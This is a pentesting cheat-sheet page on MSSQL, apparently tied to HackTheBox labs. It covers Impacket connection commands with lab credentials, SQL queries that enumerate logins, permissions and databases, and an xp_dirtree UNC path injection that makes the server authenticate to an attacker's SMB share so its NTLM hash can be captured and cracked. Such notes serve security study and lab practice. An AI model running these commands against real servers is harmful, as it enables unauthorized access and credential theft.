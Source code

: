 # MSSQL

## Connection

We can use Impacket to connect to a MSSQL server:

{% tabs %}
{% tab title="Windows Authentication" %}
```bash
$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```
{% endtab %}

{% tab title="SQL Server Authentication" %}
```
impacket-mssqlclient PublicUser:GuestUserCantWrite1@escape
```
{% endtab %}
{% endtabs %}

## Enumeration

### Who Are We

```sql
# Get the SQL login
# The variable SYSTEM_USER contains the name of the SQL login for the current session
SQL> SELECT SYSTEM_USER;

# Database user we mapped
SQL> SELECT USER_NAME();

# If we are memeber of role
SQL> SELECT IS_SRVROLEMEMBER('public');

# Current user
SQL> SELECT suser_name();
```

### What Can We Do

```sql
SQL> SELECT entity_name, permission_name FROM fn_my_permissions(NULL, 'SERVER');
```

### Accounts

```sql
# List users
SQL> SELECT name FROM master..syslogins;

# Admin user
SQL> SELECT name FROM master..syslogins WHERE sysadmin = '1';
```

### System Information

```sql
SQL> select @@version;

# Current database
SQL> SELECT DB_NAME();

# List databases
SQL> SELECT name FROM master..sysdatabases;

# Query server name
SQL> SELECT @@servername;

# Enumerate SQL Server links
SQL> SELECT srvname FROM sysservers; 
```

## Attacks

### UNC Path Injection

We can force the MSSQL server to authenticate with a SMB share we control to capture the NTLM authentication messages and crack it later.

```sql
SQL> EXEC master..xp_dirtree "\\<IP>\<SHARE>"
```

Related HackTheBox machines include:

* [Escape](../../hackthebox/windows/escape.md#unc-path-injection)
